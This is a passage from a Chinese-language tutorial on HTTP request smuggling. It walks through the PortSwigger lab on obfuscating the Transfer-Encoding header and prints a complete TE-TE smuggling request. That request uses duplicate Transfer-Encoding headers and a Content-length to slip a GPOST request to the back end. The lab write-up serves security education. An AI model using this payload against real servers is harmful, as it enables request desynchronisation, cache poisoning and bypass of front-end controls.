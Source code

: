 [![](assets/1698897445-50739784537586e903d8cf76a72df3ae.png)](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191122230209.png)

过程流程与 CL-TE 类似，Front 服务器处理这个请求的时候按照 TE 优先处理，会认为上面的请求为一个请求整体，然后转发给 Backend 服务器，Backend 服务器在处理的时候按照 CL 优先处理，会认为`12\r\n`为第一个请求的 body，以下为第二个请求，所以会响应 GPOST 为无法识别的 HTTP Method。

### Two Identical Fields - TE

这里我们来看 TE 都存在的情况，同样我们借助 LAB 实验来加深理解：[Lab: HTTP request smuggling, obfuscating the TE header](https://portswigger.net/web-security/request-smuggling/lab-ofuscating-te-header)

> This lab involves a front-end and back-end server, and the two servers handle duplicate HTTP request headers in different ways. The front-end server rejects requests that aren't using the GET or POST method.
> 
> To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST.

按照题目提示，我们要达到的仍然是让后端收到 GPOST 请求，而且场景也明确告诉我们是一种 TE-TE 的场景。其实这个场景也可以认为是相同字段的场景处理，比如说在处理两个 TE 字段，如果取第二个 TE 字段作为解析标准，而第二个字段值非正常或者解析出错，就可能会忽略掉 TE 字段，而使用 CL 字段进行解析。比如在这个 LAB 中，我们发送两遍如下请求：

```bash
POST / HTTP/1.1
Host: acfd1f201f5fb528809b582e004200a3.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=9swxitdhJRXeFhq77wGSU7fKw0VTiuzQ
Cache-Control: max-age=0
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: nothing

12
GPOST / HTTP/1.1

0
```
